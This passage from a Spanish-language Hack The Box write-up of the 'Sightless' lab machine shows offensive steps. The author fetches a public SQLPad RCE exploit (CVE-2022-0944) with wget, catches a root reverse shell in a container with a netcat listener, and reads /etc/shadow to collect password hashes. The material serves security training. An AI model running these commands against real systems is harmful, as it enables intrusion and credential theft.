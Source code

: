 
---
## Foothold 2

Una alternativa más eficiente para explotar esta vulnerabilidad es utilizando es siguiente [exploit](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944).

```terminal
/home/kali/Documents/htb/machines/sightless:-$ wget https://raw.githubusercontent.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/refs/heads/main/exploit.py
```
```terminal
/home/kali/Documents/htb/machines/sightless:-$ nc -nlvp 4321
	listening on [any] 4321 ...
```

Ejecuto el exploit especificando la URL del servicio vulnerable y mi dirección IP con el puerto en escucha.

```terminal
/home/kali/Documents/htb/machines/sightless:-$ python exploit.py http://sqlpad.sightless.htb/ 10.10.16.68 4321
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.

	... connect to [10.10.16.36] from (UNKNOWN) [10.10.11.32] 37320

root@c184118df0a6:/var/lib/sqlpad# whoami
root
```

---
## Escaping Docker

Tras obtener acceso al contenedor como usuario `root`, busco en el archivo `/etc/shadow` para identificar posibles contraseñas encriptadas de usuarios del host.

```terminal
root@c184118df0a6:/# cat /etc/shadow
```

![](assets/img/htb-writeup-sightless/sightless1_8.png)
